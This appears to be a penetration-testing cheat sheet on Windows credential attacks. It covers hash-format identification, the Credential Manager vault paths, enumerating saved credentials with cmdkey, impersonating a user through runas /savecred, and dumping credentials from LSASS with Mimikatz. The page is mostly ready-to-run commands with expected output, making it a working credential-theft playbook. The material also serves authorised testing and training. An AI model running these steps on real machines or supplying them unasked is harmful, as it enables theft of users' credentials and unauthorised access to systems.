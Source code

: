 ## Hash Identification
```bash
# NT hash: 32 hex chars
# Example: 64f12cddaa88057e06a81b54e73b949b

# LM hash: 32 hex chars (often aad3b435b51404eeaad3b435b51404ee for empty)
# Example: aad3b435b51404eeaad3b435b51404ee

# DCC2: $DCC2$ prefix
# Example: $DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25
```

## Windows Credential Manager Attacks

### Overview
Windows Credential Manager stores encrypted credentials in special folders:
- **%UserProfile%\AppData\Local\Microsoft\Vault\**
- **%UserProfile%\AppData\Local\Microsoft\Credentials\**
- **%UserProfile%\AppData\Roaming\Microsoft\Vault\**
- **%ProgramData%\Microsoft\Vault\**
- **%SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\**

### Credential Types
| Type | Description |
|------|-------------|
| **Web Credentials** | Website passwords, online accounts (IE, legacy Edge) |
| **Windows Credentials** | Domain users, OneDrive, network resources, services |

### Enumerating Stored Credentials
```cmd
# List stored credentials
cmdkey /list

# Expected output format:
# Target: Domain:interactive=SRV01\mcharles
# Type: Domain Password
# User: SRV01\mcharles
# Local machine persistence
```

### Using Stored Credentials
```cmd
# Impersonate user with stored credentials
runas /savecred /user:SRV01\mcharles cmd

# This works if credentials are stored with "Local machine persistence"
```

### Extracting Credentials with Mimikatz
```cmd
# Run mimikatz as administrator
mimikatz.exe

# Enable debug privileges
privilege::debug

# Extract credentials from LSASS
sekurlsa::credman

# Expected output:
# Authentication Id : 0 ; 630472
```